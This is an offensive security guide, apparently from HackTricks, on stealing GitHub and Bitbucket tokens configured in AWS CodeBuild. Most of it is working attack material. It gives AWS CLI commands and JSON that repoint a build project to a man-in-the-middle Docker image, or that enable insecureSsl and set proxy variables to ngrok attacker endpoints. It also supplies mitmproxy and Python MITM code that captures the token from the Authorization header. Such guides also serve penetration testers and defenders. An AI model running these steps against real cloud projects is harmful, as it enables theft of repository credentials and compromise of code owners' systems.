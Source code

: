# AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured that you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   - Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     - **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   - You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   - Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   - Create a **new Codebuild project** or **modify** the environment of an existing one.
   - Set the project to use the **previously generated Docker image**

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

- As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

> [!TIP]
> The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.

4. **Run the build & capture the credentials**

- You can see the token in the **Authorization** header:

  <figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Enabling this, allows to Codebuild to connect to the repository **without checking the certificate** offered by the platform.

- First you need to enumerate the current configuration with something like:

```bash
aws codebuild batch-get-projects --name <proj-name>
```

- Then, with the gathered info you can update the project setting **`insecureSsl`** to **`True`**. The following is an example of my updating a project, notice the **`insecureSsl=True`** at the end (this is the only thing you need to change from the gathered configuration).
  - Moreover, add also the env variables **http_proxy** and **https_proxy** pointing to your tcp ngrok like:

```bash
aws codebuild update-project --name <proj-name> \
    --source '{
        "type": "GITHUB",
        "location": "https://github.com/carlospolop/404checker",
        "gitCloneDepth": 1,
        "gitSubmodulesConfig": {
            "fetchSubmodules": false
        },
        "buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
        "auth": {
            "type": "CODECONNECTIONS",
            "resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
        },
        "reportBuildStatus": false,
        "insecureSsl": true
    }' \
    --environment '{
        "type": "LINUX_CONTAINER",
        "image": "aws/codebuild/standard:5.0",
        "computeType": "BUILD_GENERAL1_SMALL",
        "environmentVariables": [
            {
                "name": "http_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            },
            {
                "name": "https_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            }
        ]
    }'
```

- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

> [!TIP] > **This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

- An attacker could add the environment variables **http_proxy** and **https_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: `http://github.com/carlospolop-forks/TestActions`
- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="0.0.0.0",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Next, click on **Build the project** or start the build from command line:

```sh
aws codebuild start-build --project-name <proj-name>
```

- Finally, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.

{{#include ../../../../banners/hacktricks-training.md}}




